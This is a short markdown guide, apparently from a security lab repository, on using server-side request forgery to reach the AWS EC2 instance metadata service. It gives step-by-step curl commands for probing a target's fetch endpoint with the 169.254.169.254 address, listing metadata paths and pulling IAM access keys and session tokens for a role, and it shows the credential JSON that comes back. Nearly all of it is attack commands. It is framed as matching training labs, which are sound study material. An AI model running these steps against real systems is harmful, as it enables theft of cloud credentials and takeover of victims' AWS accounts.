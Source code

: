 # SSRF to AWS Metadata Credential Extraction

**Purpose:** Demonstrates how to use SSRF to access AWS EC2 instance metadata and extract IAM credentials. Matches lab flows from PwnedLabs and BTLO.

---

## Step 1: Identify SSRF Entry Point

```bash
curl 'https://target-site.com/api/fetch?url=http://169.254.169.254'
---

## Step 2: Enumerate Metadata Paths

```bash
curl http://169.254.169.254/latest/meta-data/
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
---

## Step 3: Extract IAM Credentials

```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/webapp-role
Expected output:

```json
{
  "AccessKeyId": "...",
  "SecretAccessKey": "...",
  "Token": "...",
  "Expiration": "..."
}
